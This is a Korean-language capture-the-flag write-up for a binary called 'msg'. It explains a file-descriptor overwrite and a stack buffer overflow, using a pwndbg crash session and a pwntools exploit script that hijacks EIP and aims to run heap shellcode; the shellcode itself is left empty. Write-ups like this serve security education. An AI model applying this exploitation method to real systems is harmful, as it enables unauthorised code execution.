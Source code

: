 # MSG Write-up

### 취약점1

![img](disasm.png)

취약점이 발생하는 함수입니다. 사용자의 입력으로 fd를 조작할 수 있습니다. (코드를 분석해보면 알겠지만 파일을 처음 4바이트는 메시지의 길이를 의미하게 됩니다.)

### 취약점2

```
root@inj3ct:~/tmp/sctf# python -c 'print "A"*276+"B"*4' > out

pwndbg> r
Starting program: /root/tmp/sctf/msg_patched 
1. New message
2. Change message
3. Load message
4. Exit
3
Input msg ID : 
out
msg: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB


Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[──────────────────────────────────REGISTERS───────────────────────────────────]
*EAX  0xffffffff
 EBX  0x0
*ECX  0xf7ffb940 ◂— 0xf7ffb940
*EDX  0xffffffc0
*EDI  0xf7fc8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*ESI  0xf7fc8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*EBP  0x41414141 ('AAAA')
*ESP  0xffffd650 ◂— 0xa /* '\n' */
*EIP  0x42424242 ('BBBB')
[────────────────────────────────────DISASM────────────────────────────────────]
Invalid address 0x42424242
```

위처럼 오버플로우 버그가 발생합니다.

### 공격 시나리오

1. dummy를 252(0x108-0xC) byte만큼 넣은 후, fd 값을 2(stderr)로 덮어 씌운다.
2. 뒤에서 stderr이 close되서 다음부터 파일을 열게 되면 fd의 값은 2부터 쌓인다.
3. s에 특수문자가 포함되어 있다면 새롭게 열린 파일에 "This is ~~~ : [input]\n"이 쓰인다. 
4. 분석해보면 알겠지만 이 프로그램에서 파일을 읽고 쓰는 데에 있어서 파일의 처음 4바이트는 데이터의 길이를 알려주는 포멧이다. fd에 2를 넣은 다음 다시 newMsg함수로 가면 파일이 열리는데 dummy 값으로 특수문자를 넣어버리면 그 파일에 'This is ~~~'이 쓰인다.
5. loadMsg 함수로 넘어가면 EIP가 파일에 쓰여진 데이터 중 일부로 바뀐다.
6. 이제 쉘을 어떻게 따느냐가 문제이다. NX가 걸려있어서 스택에 쉘코드를 올리는 것은 불가능하다. 또 데이터를 쓸 수 있는 길이가 제한되어 있기 때문에 ROP가 힘들다. 그렇다면 heap에 쉘코드를 올려야하는데 stdin을 통해 넣을 수 있을 듯하다. 
7. loadMsg가 실행되기 전, 즉, 4번 다음에 newMsg 함수로 가서 stdin에 데이터를 써보자
8. 1, 2, 3번을 이용하여 다음과 같이 EXPLOIT 코드를 작성한다.

```python
from pwn import *

p = process("./msg")
print p.recv()
p.sendline("1")
print p.recv()
p.sendline("a"*252+p32(0x00000002))
print p.recv()


p.sendline("1")
print p.recvuntil("Msg ID : ")
msgid = p.recvline()
print msgid
print p.recv()
ret = p32(0x08048aa4)
p.sendline(" !"+"a"*(276-2-len('This string is invalid string... : '))+ret)
# return to sub_8048aa4() ; maybe 'msg : ' is printed
print p.recv()

shellcode = ""
p.sendline("1")
print p.recv()
p.sendline("a"*99 + "\x00" + shellcode + "b"*(149-len(shellcode)) + "\r3\r" +p32(0x00000000))
print p.recv()

p.sendline("3")
print p.recv()
p.sendline(msgid)
p.interactive()
```

